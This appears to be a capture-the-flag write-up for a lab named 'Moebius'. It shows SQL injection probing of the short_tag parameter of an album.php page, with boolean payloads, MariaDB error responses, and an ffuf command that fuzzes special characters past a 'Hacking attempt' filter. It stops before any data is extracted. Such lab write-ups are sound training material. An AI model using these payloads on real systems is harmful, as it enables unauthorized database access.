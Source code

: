 <p>https://www.youtube.com/watch?v=yRKh34Ofg50  8:-)</p>

<br>

<h3>TargetIP > <code>Favourite cats</code></h3>
<p>
  
- identify <code>/album.php?short_tag=fav</code><br>
- identifiy <code>hashes</code><br></p>

<br>

<h3>SQL Injection</h3>

```bash
http://TargetIP/album.php?short_tag=smart
```

```bash
http://TargetIP/album.php?short_tag=smart'
```

<p>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server ...</p>

<img width="1059" height="51" alt="image" src="https://github.com/user-attachments/assets/2fb33e20-12d8-426f-a8e1-16ee03aa3ea4" />

```bash
http://TargetIP/album.php?short_tag=smart' AND 1=1;-- -
```

<img width="1050" height="45" alt="image" src="https://github.com/user-attachments/assets/590ab5e8-a908-4bc4-bafa-61dc8474b41f" />

```bash
http://TargetIP/album.php?short_tag=smart' AND 1=1 -- -
```

<p>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server ...</p>

```bash
http://TargetIPm/album.php?short_tag=smart';
```

<p>Hacking attempt</p>

<br>

<h3>ffuf</h3>

```bash
:~/Moebius# ffuf -u 'http://TargetIP/album.php?short_tag=FUZZ' -w /usr/share/wordlists/SecLists/Fuzzing/special-chars.txt -mr 'Hacking attempt'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://TargetIP/album.php?short_tag=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Fuzzing/special-chars.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: Hacking attempt
________________________________________________
```